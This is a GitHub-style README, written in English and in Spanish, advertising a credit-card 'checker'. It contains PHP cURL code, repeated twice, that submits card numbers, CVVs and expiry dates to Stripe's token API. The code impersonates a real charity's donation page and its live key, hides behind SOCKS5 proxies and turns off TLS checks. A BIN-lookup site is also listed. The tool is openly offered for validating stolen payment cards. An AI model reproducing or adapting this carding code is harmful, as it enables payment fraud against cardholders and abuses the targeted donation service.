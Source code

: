 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker"></a>

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and stripe. 


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$nombre = datosnombre();
$apellido = datosapellido();
$email = email($nombre);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_PROXY, $proxy);
curl_setopt($ch, CURLOPT_PROXYTYPE, CURLPROXY_SOCKS5);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0',
'Accept: application/json',
'Referer: https://js.stripe.com/v3/controller-e5a3104782ffac207edc3af004b9574b.html',
'Content-Type: application/x-www-form-urlencoded',
'Connection: keep-alive'));

curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$nombre.'+'.$apellido.'&card[address_line1]=&card[address_city]=&card[address_zip]=10001&card[currency]=USD&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=2a88d519-e56f-467a-9c63-c361a277ff54&muid=3190efac-5abc-4dac-9a48-03367b5b0064&sid=300c2fa4-1b47-44d1-8dfa-e0eb6728f2c3&payment_user_agent=stripe.js%2Fb78d06c%3B+stripe-js-v3%2Fb78d06c&referrer=https%3A%2F%2Fsecure.avaaz.org%2Fdonate%2Fpub-iframe.php%2F%3Fcid%3D3116%26lang%3Des%26sourceUrl%3Dhttps%253A%252F%252Fsecure.avaaz.org%252Fes%252Fdonate%252F&key=pk_live_eT3tlxY6x7Nzg9eDNkMYz99F&pasted_fields=number');
```
###  SITES 🌐

- **Site Donation 1**
    - https://secure.avaaz.org/

- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- joaqhoc@gmail.com or my facebook https://www.facebook.com/joaquincentu
- My Phone numer is +54 9 3454107186 (Only if you have questions or questions)
- I have whatsapp or telegram.

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$nombre = datosnombre();
$apellido = datosapellido();
$email = email($nombre);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_PROXY, $proxy);
curl_setopt($ch, CURLOPT_PROXYTYPE, CURLPROXY_SOCKS5);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0',
'Accept: application/json',
'Referer: https://js.stripe.com/v3/controller-e5a3104782ffac207edc3af004b9574b.html',
'Content-Type: application/x-www-form-urlencoded',
'Connection: keep-alive'));

curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$nombre.'+'.$apellido.'&card[address_line1]=&card[address_city]=&card[address_zip]=10001&card[currency]=USD&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=2a88d519-e56f-467a-9c63-c361a277ff54&muid=3190efac-5abc-4dac-9a48-03367b5b0064&sid=300c2fa4-1b47-44d1-8dfa-e0eb6728f2c3&payment_user_agent=stripe.js%2Fb78d06c%3B+stripe-js-v3%2Fb78d06c&referrer=https%3A%2F%2Fsecure.avaaz.org%2Fdonate%2Fpub-iframe.php%2F%3Fcid%3D3116%26lang%3Des%26sourceUrl%3Dhttps%253A%252F%252Fsecure.avaaz.org%252Fes%252Fdonate%252F&key=pk_live_eT3tlxY6x7Nzg9eDNkMYz99F&pasted_fields=number');
```

###  SITIOS 🌐

- **Sitio Donación**
    - https://secure.avaaz.org/

- **Sitio API 1**
    - https://api.stripe.com/v1/tokens
    
- **Sitio BIN 1**
    - https://lookup.binlist.net/


### Archivos Incluidos 📂

- api.php


### Sobre Mi 👨‍💻

Fundador de Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Cerrado)

Mis lenguajes favorios de programación son C ++, VB.NET, PYTHON, PHP, JAVASCIPRT y JQUERY❤

Amo el café❤

Proyecto Unc3ns0r3d fue creado el día 04/26/2018

### Contactame ✉
- joaqhoc@gmail.com o mi facebook https://www.facebook.com/joaquincentu
- Mi número de telefono es +54 9 3454107186 (Solo para dudas o preguntas)
- Solo ocupo whatsapp y telegram.
